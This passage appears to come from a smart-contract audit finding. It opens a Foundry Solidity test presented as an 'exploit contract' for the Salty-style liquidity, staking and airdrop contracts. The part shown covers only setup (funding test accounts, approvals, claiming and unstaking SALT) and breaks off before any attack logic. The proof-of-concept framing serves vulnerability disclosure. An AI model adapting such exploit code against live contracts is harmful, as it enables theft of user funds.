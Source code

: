 This is the exploit contract,please place it in the "test" folder within the project directory：

```// SPDX-License-Identifier: BUSL 1.1
pragma solidity =0.8.22;

import "../src/dev/Deployment.sol";
import "../src/pools/PoolUtils.sol";
import "forge-std/console.sol";

contract MyLiquidityTest is Deployment {

    address public constant alice = address(0x1111);
    address public constant bob = address(0x2222);
    address public constant charlie = address(0x3333);

	function setUp() public {
	
    initializeContracts();

		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.startPrank(DEPLOYER);
		weth.transfer(alice, 1000000 ether);
		wbtc.transfer(alice, 1000000 * 10 ** 8);
		dai.transfer(alice, 1000000 ether);

        weth.transfer(bob, 1000000 ether);
		wbtc.transfer(bob, 1000000 * 10 ** 8);
		dai.transfer(bob, 1000000 ether);

		vm.stopPrank();

    //alice config
    vm.startPrank(alice);

    weth.approve(address(collateralAndLiquidity), type(uint256).max);
    wbtc.approve(address(collateralAndLiquidity), type(uint256).max);
    dai.approve(address(collateralAndLiquidity), type(uint256).max);
    salt.approve(address(collateralAndLiquidity), type(uint256).max);
		weth.approve(address(pools), type(uint256).max);
    wbtc.approve(address(pools), type(uint256).max);
    dai.approve(address(pools), type(uint256).max);
    salt.approve(address(pools), type(uint256).max);
 
    //get salt

    airdrop.claimAirdrop();
    uint256 numWeek = stakingConfig.maxUnstakeWeeks();
    uint256 saltAmount = staking.userXSalt(alice);
    uint256 id = staking.unstake(saltAmount,numWeek);

    vm.warp(block.timestamp + numWeek * 1 weeks + 1);

    staking.recoverSALT(id);
    vm.stopPrank();

    //bob config
    vm.startPrank(bob);
```